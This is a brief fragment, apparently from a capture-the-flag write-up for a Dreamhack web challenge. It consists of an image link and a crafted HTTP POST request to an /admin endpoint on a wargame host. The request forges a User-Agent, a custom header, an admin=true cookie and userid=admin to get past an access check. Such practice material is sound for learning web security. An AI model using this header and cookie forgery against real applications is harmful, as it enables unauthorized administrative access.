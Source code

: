 POST /admin HTTP/1.1
Host: host3.dreamhack.games:17352
User-Agent: Admin Browser
DreamhackUser: admin
Cookie: admin=true
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 12

userid=admin

![Alt text](image.png)